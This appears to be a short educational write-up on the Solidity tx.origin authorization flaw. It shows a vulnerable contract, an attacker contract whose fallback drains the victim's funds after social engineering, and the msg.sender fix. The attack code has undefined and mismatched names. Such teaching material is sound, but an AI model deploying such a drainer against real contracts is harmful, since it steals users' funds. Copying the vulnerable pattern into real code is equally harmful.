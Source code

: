 # Authorization through `tx.origin`

Solidity has a global variable, `tx.origin` which traverses the entire call stack and returns the `address of the account` that originally sent the call (or transaction). Using this variable for authentication in smart contracts leaves the contract vulnerable to a `phishing-like attack`.


![image](https://user-images.githubusercontent.com/82324643/208300173-c3740287-97b5-4228-89e9-6306fca8fcb1.png)



#### Contract


    contract MyContract {

        address owner;

        function MyContract() public {
            owner = msg.sender;
        }

        function sendTo(address receiver, uint amount) public {
            require(tx.origin == owner);
            receiver.transfer(amount);
        }

       }
    
    
#### Attacker contract

contract Attacker {

    MyContract public myContract;
    function AttackingContract(MyContract myContractAddress) external {
        myContract = MyContract(myContractAddress);
        
    }

    fallback () public {
        myContract.sendTo(attacker, msg.sender.balance);
      }

    }
    
    
To utilise this contract, an attacker would deploy it, and then convince the owner of the Phishable contract to send this contract some amount of ether. The attacker may disguise this contract as their own private address and social engineer the victim to send some form of transaction to the address. The victim, unless being careful, may not notice that there is code at the `attacker's address`.

In any case, if the victim sends a transaction (with enough gas) to the AttackContract address, it will invoke the fallback function, which in turn calls the `sentTo()` function of the `Phishable contract`, with the parameter attacker. This will result in the withdrawal of all funds from the Phishable contract to the attacker address. This is because the address that first initialised the call was the victim (i.e. the owner of the Phishable contract). Therefore, `tx.origin` will be equal to owner and the `Phishable contract` will pass.


### prevent technique

you should use `msg.sender` for authorization (if another contract calls your contract `msg.sender` will be the address of the contract and not the address of the user who called the contract).
